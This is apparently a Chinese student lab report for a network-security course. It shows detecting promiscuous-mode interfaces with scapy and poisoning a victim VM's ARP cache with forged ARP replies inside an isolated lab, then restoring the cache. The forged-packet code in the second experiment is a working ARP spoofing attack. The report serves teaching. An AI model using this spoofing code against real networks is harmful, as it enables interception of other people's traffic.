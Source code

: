 # 网络监听

## 网络拓扑：

网关：

172.16.111.1 

08:00:27:bf:d4:86/enp0s9

攻击者主机：

172.16.111.148

08:00:27:e7:9f:15/eth0 

受害者主机:

172.16.111.121

08:00:27:79:8f:43/eth0

- [x] 实验一检测局域网中的异常终端
- [x] 实验二手工单步“毒化”目标主机的 ARP 缓存

## 实验准备

### 安装sacpy

在攻击者主机上提前安装好scapy

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

<img src="img\安装Python3.jpg" alt="安装Python3" style="zoom:67%;" />

<img src="img\pip3.jpg" alt="pip3" style="zoom:67%;" />

## 实验一检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

<img src="img\检查混杂模式.jpg" alt="检查混杂模式" style="zoom:67%;" />

```bash
# 在攻击者主机上开启 scapy
scapy
```

<img src="img\在攻击者主机上开启scapy.jpg" alt="在攻击者主机上开启scapy" style="zoom:67%;" />

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")
```

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
```

<img src="img\受害者主机上手动开启网卡混杂模式.jpg" alt="受害者主机上手动开启网卡混杂模式" style="zoom:67%;" />

```bash
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

<img src="img\开启混杂模式后结果多出了PROMISC.jpg" alt="开启混杂模式后结果多出了PROMISC" style="zoom:67%;" />
```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.121")
```

<img src="img\对比两条命令输出结果的差异.jpg" alt="对比两条命令输出结果的差异" style="zoom:67%;" />

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

<img src="img\受害者上关闭混杂模式.jpg" alt="受害者上关闭混杂模式" style="zoom:67%;" />

经查阅资料，promiscping 命令会发送 ARP who-has 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启Wireshark抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

## 实验二手工单步“毒化”目标主机的 ARP 缓存

**以下代码在攻击者主机上的 `scapy` 交互式终端完成。**

#### 获取当前局域网的网关 MAC 地址

```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1 ")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

<img src="img\构造以及查看ARP请求.jpg" alt="构造以及查看ARP请求" style="zoom: 67%;" />

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

<img src="img\发送广播请求并查看Mac地址.jpg" alt="发送广播请求并查看Mac地址" style="zoom: 67%;" />

#### 伪造网关响应包

```
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1 ", pdst="172.16.111.121", hwdst="08:00:27:e7:9f:15")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

<img src="img\发送伪造的ARP想赢数据包到受害者主机.jpg" alt="发送伪造的ARP想赢数据包到受害者主机" style="zoom:67%;" />

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
```

<img src="img\在受害者主机上查看ARP缓存.jpg" alt="在受害者主机上查看ARP缓存" style="zoom: 67%;" />

### 恢复受害者主机的 ARP 缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1 ",hwsrc="08:00:27:bf:d4:86", pdst="172.16.111.121", hwdst="08:00:27:79:8f:43")
sendp(restorepkt1, count=100, inter=0.2)
```

<img src="img\恢复受害者主机的 ARP 缓存记录.jpg" alt="恢复受害者主机的 ARP 缓存记录" style="zoom: 67%;" />

#### 此时在受害者主机上准备“刷新”网关 ARP 记录。

```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

<img src="img\恢复网关ARP记录.jpg" alt="恢复网关ARP记录" style="zoom:50%;" />

## 问题解决

1.输入pkt = promiscping("172.16.111.121")报错：peimissionerror

<img src="img\question1.jpg" alt="question1" style="zoom: 50%;" />

解决方法：

进入root权限

<img src="img\anwser.jpg" alt="anwser" style="zoom: 50%;" />

## 参考文件

[实验-网络安全](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)

